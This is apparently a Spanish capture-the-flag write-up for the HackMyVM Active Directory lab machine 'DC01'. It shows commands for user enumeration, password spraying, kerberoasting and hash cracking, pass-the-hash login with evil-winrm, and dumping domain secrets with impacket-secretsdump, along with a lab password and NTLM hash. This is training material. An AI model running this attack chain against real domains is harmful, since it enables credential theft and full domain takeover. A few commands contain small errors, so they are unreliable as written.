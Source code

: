 # Máquina DC01

Enlace a la máquina -> [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=DC01)

![imagen](https://github.com/user-attachments/assets/21166e62-1d1a-48a0-96fa-431e1ff98859)

- **Nombre de la Máquina:** DC01  
- **Sistema Operativo:** Windows - Active Directory  
- **Dificultad:** Fácil  
- **Plataforma:** HackMyVM  
- **Dirección IP:** 192.168.1.145  
- **Vulnerabilidades Explotadas:**
  - 
- **Escalada de Privilegios:**
  - 

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos y las versiones en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn -sCV --open 192.168.1.145 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/65ec265d-b175-4885-907b-8a1367516371)

Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts

![imagen](https://github.com/user-attachments/assets/b51e0c8e-b3ff-4c6c-bf32-15f9f58fee46)

Enumero el puerto smb con el usuario guest pero solo tengo permisos de lectura en un fichero que no es para nada interesante.

![imagen](https://github.com/user-attachments/assets/2adfc6a2-8c5b-46ea-960c-c6f8ea58691d)

Utilizo el siguiente comando para enumerar posibles usuarios (dejo dos comandos con los cuales podemos enumerar usuarios):

```bash
netexec smb 192.168.1.145 -u "guest" -p "" --rid-brute
impacket-lookupsid guest@soupedecode.local
```
![imagen](htts://github.com/user-attachments/assets/277bd353-0a89-4121-9b94-1449ec2f0dd0)

Guardaremos en una lista solamente los nombres de los usuarios, para ello haremos uso de las expresiones regulares.

```bash
impacket-lookupsid guest@192.168.1.145 -no-pass | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```

![imagen](https://github.com/user-attachments/assets/6698fd49-934f-403e-9280-01b366cfce7d)

## Explotación

Esto nos da una lista de 1069 usuarios en el dominio. Un intento de realizar un ataque ASREPRoasting fracasará porque todas estas cuentas tienen Kerberos pre-autenticación requerida atributo. Podemos intentar un ataque con contraseña. Los usuarios a veces utilizan sus nombres de inicio de sesión como su contraseña, así que intentemos rociar el nombre de usuario de cada cuenta como su contraseña.

```bash
netexec smb 192.168.1.145 -u users.txt -p users.txt --no-brute --continue-on-success
```

![imagen](https://github.com/user-attachments/assets/73755852-99fd-4e35-a49b-fdcd8b3c5d61)

Probamos el usuario ybob317 y podemos ver los permisos de lectura que tiene en el puerto smb.

```bash
netexec smb 192.168.1.145 -u ybob317 -p ybob317 --shares
```

![imagen](https://github.com/user-attachments/assets/7298880e-f4e0-4565-85df-a598548e4ea8)

Igualmente no encontramos nada interesante en los recursos compartidos smb, vamos a probar un kerberoast. Esto fallará si nuestro host de ataque no tiene el mismo tiempo que el controlador de dominio por lo que antes de usar los scripts de Impacket a las cuentas de servicio de kerberoast, primero necesitamos cambiar nuestro tiempo al del controlador de dominio.

```bash
timedatectl set-ntp off
sudo rdate -n 192.168.1.145
---
sudo ntpdate 192.168.1.145
```

Para obtener los hashes, ejecutaremos el siguiente comando.

```bash
impacket-GetUserSPNs -dc-ip 192.168.1.145 soupedecode.local/ybob317:ybob317 -request -outputfile hashes.kerberoast
```

![imagen](https://github.com/user-attachments/assets/2385b7ac-0f31-45c4-b4ed-cac31d63c709)

![imagen](https://github.com/user-attachments/assets/555e660a-0d4f-4a22-b9fc-fca78a5eba8d)

Después de obtener el TGS de cuentas de servicio en el objetivo, podemos utilizar John para descifrarlas.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
```

![imagen](https://github.com/user-attachments/assets/5cf6a686-33f5-4731-9077-0daf357c5122)


Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece. Para identificar a quien pertenece esa contraseña, utilizaremos netexec.

```bash
netexec smb 192.168.1.145 -u kerb_users.txt -p 'Password123!! --shares'
```

![imagen](https://github.com/user-attachments/assets/4269c941-6e27-4cce-8d52-15976682020f)

Vemos también que tenemos permisos de lectura para el recurso compartido llamado backup, vamos a mirarlo con smbclient.

```bash
smbclient //192.168.1.145/backup -U 'file_svc%Password123!!'
```

![imagen](https://github.com/user-attachments/assets/dc496890-75b2-4246-96f6-00be0ec14a3c)

Pues si hacemos un cat al archivo, vemos que tenemos los hashes de diferentes usuarios:

![imagen](https://github.com/user-attachments/assets/1c65f85d-1dcb-4904-b115-4ffe29a94d4a)

Podemos ver que el recurso compartido de respaldo en el DC01 contenía un archivo de texto con hashes de contraseña NTLM de cuentas de servicio en el destino. Podemos intentar distribuir estos hashes a los nombres de usuario que enumeramos anteriormente para verificar si se ha reutilizado alguna contraseña. 

```bash
cat backup_extract.txt | cut -d '$' -f1 > names.txt
cat backup_extract.txt | cut -d ':' -f4 > hashes.txt
```

```bash
netexec winrm 192.168.1.145 -u names.txt -H hashes.txt --no-brute --continue-on-success
```

![imagen](https://github.com/user-attachments/assets/3b0afe85-a05f-4978-aa36-98e4dd371ac2)

Obtuvimos un éxito exitoso en el FileServer$ usuario. El (Pwn3d!) indica que esta cuenta puede conectarse localmente al DC01.

Nos conectamos por evil-winrm y tenemos acceso.

```bash
evil-winrm -i 192.168.1.145 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559
```

![imagen](https://github.com/user-attachments/assets/fde02b66-37e9-4d79-b486-1abfdd9b6fab)

La enumeración muestra que esta cuenta es miembro del grupo Administradores. Podemos usar esto para leer la flag de root en el objetivo como se muestra a continuación. 

![imagen](https://github.com/user-attachments/assets/f4e682dc-288c-4efa-ab6a-ded5876eb931)

Podremos también dumpear el hash del usuario administrador de la siguiente manera.

```bash
impacket-secretsdump soupedecode.local/FileServer\$@192.168.1.145 -hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'
---
netexec smb 14.14.1.28 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 –ntds
```

![imagen](https://github.com/user-attachments/assets/d67cd5cd-a291-482b-9254-1122f3e15d8d)

# Conclusión
¡Felicidades! En este CTF, utilizó una sesión nula SMB para enumerar usuarios en el destino. Finalmente, aprovecha una sucesión de contraseñas débiles para comprometer diferentes cuentas en el sistema que le dio acceso de administrador. Esta máquina fue diseñada para mostrar cómo el uso de contraseñas débiles podría afectar seriamente la postura de seguridad de una organización. Gracias por seguir este tutorial. 
